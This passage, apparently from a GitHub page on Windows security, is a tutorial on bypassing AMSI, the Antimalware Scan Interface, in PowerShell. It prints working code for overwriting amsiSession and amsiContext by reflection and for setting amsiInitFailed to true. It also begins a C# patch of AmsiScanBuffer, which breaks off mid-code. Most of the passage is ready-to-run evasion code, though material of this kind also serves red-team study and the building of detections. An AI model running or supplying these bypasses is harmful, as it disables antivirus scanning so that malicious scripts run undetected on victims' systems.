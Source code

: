 ```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076) # allocate some memory
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null) # overwrite `amsiSession`
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem) # overwrite `amsiContext`
Write-host -ForegroundColor green "AMSI won't be called anymore"
```

### Setting amsiInitFailed to $true

Instead of causing an error, we can also directly set ourselves the `amsiInitField` property.
[@mattifestation](https://twitter.com/mattifestation) bypass is so short to fit into a [tweet](https://twitter.com/mattifestation/status/735261176745988096). [3]

```powershell
$amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') # get `amsi.dll` handle
$field = $amsi.GetField('amsiInitFailed','NonPublic,Static') # get `amsiInitFailed` field
$field.SetValue($null,$true) # set it to `$true`
Write-host -ForegroundColor green "AMSI won't be called anymore"
```

The `amsiInitFailed` property is not directly exposed due to the fact that the it's declared private, but thanks to the [.NET Reflection API](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/reflection) we can access it.
By setting it at `$true` we can successfully disable AMSI and `amsi.dll`'s `AmsiScanBuffer` won't be called anymore.

### Patching AmsiScanBuffer

It's also possible to _monkeypatch_ at runtime the `amsi.dll` code. In particular, we are interested in patching the function `AmsiScanBuffer`. We can overwrite the logic of this function by making them always return `S_OK`, as when the command is allowed to run. [7]

In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest `C#` version embedded in a `.ps1` script, taken from [decoder](https://decoder.cloud)'s [powershellveryless](https://github.com/decoder-it/powershellveryless). [20] [21]

```powershell
# Add-Type writes *.cs on disk!!
$id = get-random;
$Ref = (
    "System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "System.Runtime.InteropServices, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"
);

$Source = @"
using System;
using System.Runtime.InteropServices;
namespace Bypass
{
    public class AMSI$id
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);

        public static int Disable()
        {
```
